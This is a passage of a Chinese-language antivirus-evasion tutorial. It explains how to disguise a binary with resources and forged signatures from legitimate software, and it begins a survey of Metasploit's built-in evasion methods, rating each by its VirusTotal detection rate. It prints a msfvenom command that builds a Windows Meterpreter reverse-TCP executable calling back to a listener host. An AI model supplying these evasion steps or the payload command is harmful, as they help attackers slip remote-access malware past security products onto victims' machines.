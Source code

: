 1. 加资源

使用ResHacker对文件进行资源操作，找来多个正常软件，将它们的资源加入到自己软件，如图片，版本信息，对话框等。

2. 替换资源

使用ResHacker替换无用的资源（Version等）。

3. 加签名

使用签名伪造工具，将正常软件的签名信息加入到自己软件中。


# 7 Metasploit自带免杀

Metasploit自身已经提供了一定免杀机制，比如Evasion模块、MSF自带的C编译模块、大名鼎鼎的`shikata_ga_nai`编码等等，但由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果。

免杀测试主要是使用了metasploit或cobaltstrike生成的代码或程序进行免杀处理，在实验机(win7 x64)上安装了360全家桶和火绒进行本地测试，在`https://www.virustotal.com/`上进行在线查杀（**如果是自己做免杀，建议测试机不要联互联网，更不要上传到virustotal.com类似的平台上**）。

在开始实验之前，写了一篇文章介绍了一下msfvenom的基本参数和一些小技巧：[https://mp.weixin.qq.com/s/1r0iakLpnLrjCrOp2gT10w](https://mp.weixin.qq.com/s/1r0iakLpnLrjCrOp2gT10w)，里面基本介绍了msfvenom的所有常用参数，有些参数在msf使用中可能会有一些意想不到的效果。

## 7.1 原生态payload(VT查杀率53/69)

操作便利★★★★★

免杀效果★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

在免杀之前，我先生成了一个原始payload作为原始样本做对比，选用了频率最高的`windows/meterperter/reverse_tcp`，这也是被各大杀软盯的最紧的一个，并以此做为其他免杀的对比衡量标准。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe -o payload1.exe
```
经测试，可正常上线。在`virustotal.com`上查杀率为53/69。这种原生态的居然还有没查杀出来的，还好意思叫杀软么...
